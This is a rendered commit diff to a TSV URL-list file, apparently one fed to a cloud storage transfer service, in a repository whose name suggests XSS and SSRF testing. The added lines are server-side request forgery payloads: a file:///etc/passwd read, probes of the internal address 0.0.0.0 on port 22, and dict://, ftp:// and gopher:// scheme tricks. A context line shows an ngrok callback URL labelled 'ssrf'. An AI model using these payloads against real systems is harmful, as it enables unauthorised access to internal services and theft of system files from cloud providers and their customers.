

Before and after one commit to missoumxss/heroku, a TSV file: cloud.TSV, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update cloud.TSV

```diff
--- a/cloud.TSV
+++ b/cloud.TSV
@@ -1,2 +1,4 @@
 TsvHttpData-1.0
+http://0.0.0.0:22/      1357      A+HvTjBeDmzIES/+siF8vA==
+http://0.0.0.0:22/
 https://127.0.0.1/      1357      A+HvTjBeDmzIES/+siF8vA==
@@ -18 +20,9 @@ https://9470d358.ngrok.io/ssrf      2468      A+HvTjBeDmzIES/+siF8vA==
 https://example.com/buckets/obj2      2468      A+HvTjBeDmzIES/+siF8vA==
+file:///etc/passwd      2468      A+HvTjBeDmzIES/+siF8vA==
+file:///etc/passwd
+dict://
+ftp://
+gopher://
+dict://0      2468      A+HvTjBeDmzIES/+siF8vA==
+ftp://0      2468      A+HvTjBeDmzIES/+siF8vA==
+gopher://0      2468      A+HvTjBeDmzIES/+siF8vA==
```
